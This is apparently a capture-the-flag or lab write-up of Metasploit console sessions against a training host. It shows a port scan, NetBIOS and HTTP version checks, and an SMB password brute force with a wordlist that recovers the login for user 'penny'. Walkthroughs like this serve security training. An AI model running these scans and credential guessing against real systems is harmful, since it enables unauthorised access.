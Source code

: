 1.    5 
```
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 10.10.255.118:        - 10.10.255.118:22 - TCP OPEN
[+] 10.10.255.118:        - 10.10.255.118:21 - TCP OPEN
[+] 10.10.255.118:        - 10.10.255.118:139 - TCP OPEN
[+] 10.10.255.118:        - 10.10.255.118:445 - TCP OPEN
[+] 10.10.255.118:        - 10.10.255.118:8000 - TCP OPEN
[*] 10.10.255.118:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```


2.
```
msf6 auxiliary(scanner/netbios/nbname) > run

[*] Sending NetBIOS requests to 10.10.255.118->10.10.255.118 (1 hosts)
[+] 10.10.255.118 [IP-10-10-255-11] OS:Unix Names:(ACME IT SUPPORT, IP-10-10-255-11) Addresses:(10.10.255.118) Mac:00:00:00:00:00:00 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


```


3.
```
msf6 auxiliary(scanner/http/http_version) > set rport 8000
rport => 8000
msf6 auxiliary(scanner/http/http_version) > run

[+] 10.10.255.118:8000 webfs/1.21 ( 403-Forbidden )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```


4.
```
msf6 > use scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.10.255.118
rhosts => 10.10.255.118
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /home/kali/Downloads/MetasploitWordlist.txt
PASS_FILE => /home/kali/Downloads/MetasploitWordlist.txt
msf6 auxiliary(scanner/smb/smb_login) > set SMBuser penny
SMBuser => penny
msf6 auxiliary(scanner/smb/smb_login) > run



[-] 10.10.255.118:445     - 10.10.255.118:445 - Failed: '.\penny:goat',
[-] 10.10.255.118:445     - 10.10.255.118:445 - Failed: '.\penny:god',
[-] 10.10.255.118:445     - 10.10.255.118:445 - Failed: '.\penny:guessme',
[-] 10.10.255.118:445     - 10.10.255.118:445 - Failed: '.\penny:hugs',
[-] 10.10.255.118:445     - 10.10.255.118:445 - Failed: '.\penny:letmein',
[+] 10.10.255.118:445     - 10.10.255.118:445 - Success: '.\penny:leo1234'
[*] 10.10.255.118:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


```
